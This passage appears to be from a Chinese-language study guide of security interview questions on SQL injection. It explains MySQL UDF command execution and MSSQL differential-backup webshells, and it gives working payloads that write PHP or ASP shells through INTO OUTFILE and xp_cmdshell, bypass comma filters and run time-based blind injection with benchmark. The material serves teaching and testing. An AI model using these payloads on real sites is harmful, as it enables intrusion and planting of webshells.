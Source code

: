 > mysql支持用户自定义函数，将含有自定义函数的dll放入特定的文件夹，声明引入dll中的执行函数，使用执行函数执行系统命令

## 12.MSSQL差异备份原理及条件？

**原理：**

> 完整备份后，再次对数据库进行修改，差异备份会记录最后的LSN，将shell写入数据库，备份成asp即可getshell

**条件：**

> MSSQL具有dbo或sa权限  
> 支持堆叠查询  
> 找到网站的绝对路径

## 二、实操技能类

## 1.SQL注入写shell的条件，用法

**条件：**

> 当前用户具有dba权限  
> 找到网站绝对路径  
> 网站有可写目录  
> mysql的配置`secure_file_priv`为空

**用法：**  
mysql:

```
id=1' and 1=2 union select 1,2,'shell内容' into outfile "绝对路径\shell.php" %23
```

sqlserver:

```
id=1';EXEC master..xp_cmdshell 'echo "shell内容" > 绝对路径\shell.asp' --
```

## 2.sql注入过滤了逗号，怎么弄?

**join绕过：**

```
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```

## 3.sleep被禁用后还能怎么进行sql注入

benchmark代替sleep:

```
id=1 and if(ascii(substring((database()),1,1))=115,(select benchmark(10000000,md5(0x41))),1) --+
```

笛卡尔积盲注：
